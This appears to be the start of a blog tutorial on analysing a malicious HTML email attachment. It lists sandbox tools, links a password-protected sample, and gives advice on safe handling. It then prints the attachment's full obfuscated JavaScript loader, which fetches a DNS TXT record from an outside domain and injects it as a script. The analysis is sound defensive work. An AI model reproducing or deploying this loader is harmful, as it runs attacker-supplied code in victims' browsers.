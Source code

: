 ### Required Tools
Here are the tools you need:

* A Sandbox Lab (if you don't have one, then build [one](https://www.sharif.org/2019/04/HowToCreateAVM/))
* Didier Stevens's SpiderMonkey ([Link](https://blog.didierstevens.com/programs/spidermonkey/))

Upload the HTML attachment to your sandbox (Be Very Careful!).  You can get a copy [here](https://myonlinesecurity.co.uk/wp-content/uploads/2019/06/delivery-328.zip) (Usual Password)

To reduce the risk of accidental double clicking on the malicious attachments you can do the following:

> Re-associate .html extensions to open in notepad or your favorite hex editor.  This will reduce the chance of accidentally double clicking a malicious file while trying to transfer it to your sandbox. Why stop there?  Re-associate other high risk extensions (ex. .doc, .xls, .pdf, .vbs, .js) to open in Notepad too.  I may revisit this idea in another article.

### Lets Get Started
Here is the code contained in the malicious HTML attachment:

``` XML
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta content="" /><script type="text/javascript" xml:space="preserve">//<![CDATA[
    var v = window.atob("aHR0cHM6Ly9kbnMuZ29vZ2xlLmNvbS9yZXNvbHZlP25hbWU9ZmV0Y2guc2x6eGtjZWUuZ2xhbWlzYm91bmQuY29tJnR5cGU9VFhU");
    var _0x2b42=['0xc','open','GET','onreadystatechange','status','readyState','parse','responseText','createElement','script','innerHTML','substring','send','push','shift','0x0','0x1','0x2','0x3','0x4','0x5','0x6','0x7','data','0x8','0x9','0xa','0xb','length','body'];(function(_0x26248d,_0x33adc9){var _0x47fb3a=function(_0xb8f9b1){while(--_0xb8f9b1){_0x26248d['push'](_0x26248d['shift']());}};_0x47fb3a(++_0x33adc9);}(_0x2b42,0x97));var _0x58f7=function(_0x3aa2b9,_0x591490){_0x3aa2b9=_0x3aa2b9-0x0;var _0x2886d9=_0x2b42[_0x3aa2b9];return _0x2886d9;};function ccc(){var _0x3bf9f2=[_0x58f7('0x0'),_0x58f7('0x1'),_0x58f7('0x2'),_0x58f7('0x3'),_0x58f7('0x4'),_0x58f7('0x5'),_0x58f7('0x6'),'Answer',_0x58f7('0x7'),_0x58f7('0x8'),_0x58f7('0x9'),_0x58f7('0xa'),'appendChild',_0x58f7('0xb')];(function(_0x532510,_0x26a9cf){var _0x47b474=function(_0x5c32a3){while(--_0x5c32a3){_0x532510[_0x58f7('0xc')](_0x532510[_0x58f7('0xd')]());}};_0x47b474(++_0x26a9cf);}(_0x3bf9f2,0x1b2));var _0x58060d=function(_0x13b5d5,_0x174409){_0x13b5d5=_0x13b5d5-0x0;var _0x1aae1c=_0x3bf9f2[_0x13b5d5];return _0x1aae1c;};var _0x48f014=new XMLHttpRequest();_0x48f014[_0x58060d(_0x58f7('0xe'))](_0x58060d(_0x58f7('0xf')),v);_0x48f014[_0x58060d(_0x58f7('0x10'))]=function(){if(_0x48f014[_0x58060d(_0x58f7('0x11'))]==0xc8&&_0x48f014[_0x58060d(_0x58f7('0x12'))]==0x4){var _0x45edda=JSON[_0x58060d(_0x58f7('0x13'))](_0x48f014[_0x58060d(_0x58f7('0x14'))]);var _0x2e08f9=_0x45edda[_0x58060d(_0x58f7('0x15'))][0x0][_0x58f7('0x16')];var _0x599d3c=document[_0x58060d(_0x58f7('0x17'))](_0x58060d(_0x58f7('0x18')));_0x599d3c[_0x58060d(_0x58f7('0x19'))]=_0x2e08f9[_0x58060d(_0x58f7('0x1a'))](0x1,_0x2e08f9[_0x58f7('0x1b')]-0x1);document[_0x58f7('0x1c')][_0x58060d(_0x58f7('0x1d'))](_0x599d3c);}};_0x48f014[_0x58060d('0xd')]();}
    //]]>
    </script><script src="https://accounts.google.com/o/oauth2/revoke?callback=ccc()" type="text/javascript" xml:space="preserve"></script>
    <title></title>
</head>
<body>
    Loading...
</body>
</html>
```


[1]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image1.png
[2]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image2.png
[3]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image3.png